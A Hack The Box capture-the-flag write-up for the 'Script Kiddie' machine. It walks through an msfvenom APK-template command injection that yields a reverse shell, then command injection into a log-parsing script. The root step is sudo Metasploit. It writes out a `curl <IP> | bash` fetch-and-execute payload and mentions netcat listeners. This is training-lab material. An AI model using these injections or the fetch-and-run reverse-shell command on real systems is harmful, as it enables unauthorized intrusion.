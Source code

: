 # Script Kiddie Writeup (Hack The Box) by [yaguine](https://github.com/yaguine)

### objetive 
* user flag
* root flag

---

## user flag

### nmap 

![](./images/image1.png)  

### web

we are greeted with a hand-made webpage that let you execute some commands  
![](./images/image2.png)  

you can execute `searchsploit`, `nmap` and `msfvenom` and choose some of its values  
i try a little bit of command injection but i can't  

the "template file" on the "msfvenom" part caught my eye  
i google it, and while doing it, google auto-fills with "msfvenom template exploit"  
seems like in some versions of msfvenom, you cand use a malicious ".apk" as template file for android  
that allows you to execute commands  

i discover the module *exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection*  
this module creates an ".apk" that makes the target send a reverse shell to the selected IP and PORT  
we setup a **netcat listener** and choose "os=android" and our file as template file on the website  
![](./images/image3.png)  

we click "generate"... and voilá !! we have a reverse shell as "kid" and user.txt !!!

--- 

## root flag

it seems like */home/pwn/scanlosers.sh* is an interesting file  
![](./images/image4.png)  

it looks like its reading every line of */home/kid/logs/hackers*  
it's cutting the line in blank spaces and selecting the 3rd element to use it as IP in nmap  
with a little bit of try an error, looks like its executing right after modifying the file *hackers*  
i believe this has to be vulnerable to command injection  

### exploiting the script

first, as proof of concept, im gonna curl a netcat listener  
![](./images/image5.png)  

i use double quotes so the command "cut" doesn't apply to the payload, and backsticks to execute an additional command  
lets save the file...  
![](./images/image6.png)  
it works !!!!

so now you can get a reverse shell as *pwn*  
there are a lot of techniques to choose  
my favorite one goes as follows :
* create a bash script with a reverse shell payload directed to your machine on a chosen port named "index.html"
* start a http server on the same location as the script
* start a netcat listener on the chosen port
* inject the following command : `curl <IP> | bash`
* you should have a reverse shell

### from "pwn" to "root"  

this one is pretty trivial  
![](./images/image7.png)  

after using Metasploit with sudo privileges, we can directly execute system commands on the metasploit shell  
![](./images/image8.png)  

